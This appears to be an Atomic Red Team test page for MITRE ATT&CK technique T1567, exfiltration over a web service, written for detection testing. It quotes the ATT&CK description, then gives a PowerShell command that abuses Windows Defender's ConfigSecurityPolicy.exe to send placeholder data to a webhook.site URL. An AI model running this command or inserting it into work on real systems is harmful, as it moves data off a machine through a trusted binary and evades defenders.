 # T1567 - Exfiltration Over Web Service
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1567)
<blockquote>Adversaries may use an existing, legitimate external Web service to exfiltrate data rather than their primary command and control channel. Popular Web services acting as an exfiltration mechanism may give a significant amount of cover due to the likelihood that hosts within a network are already communicating with them prior to compromise. Firewall rules may also already exist to permit traffic to these services.

Web service providers also commonly use SSL/TLS encryption, giving adversaries an added level of protection.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Data Exfiltration with ConfigSecurityPolicy](#atomic-test-1---data-exfiltration-with-configsecuritypolicy)


<br/>

## Atomic Test #1 - Data Exfiltration with ConfigSecurityPolicy
Exfiltration of data using ConfigSecurityPolicy.exe
https://debugactiveprocess.medium.com/data-exfiltration-with-lolbins-4d9c6e43dacf

**Supported Platforms:** Windows


**auto_generated_guid:** 5568a8f4-a8b1-4c40-9399-4969b642f122






#### Attack Commands: Run with `powershell`! 


```powershell
$path = resolve-path "c:\ProgramData\Microsoft\Windows Defender\Platform\*\ConfigSecurityPolicy.exe"
& $path[0] c:\temp\config.xml "https://webhook.site?d=sensitive-data-here"
```






<br/>
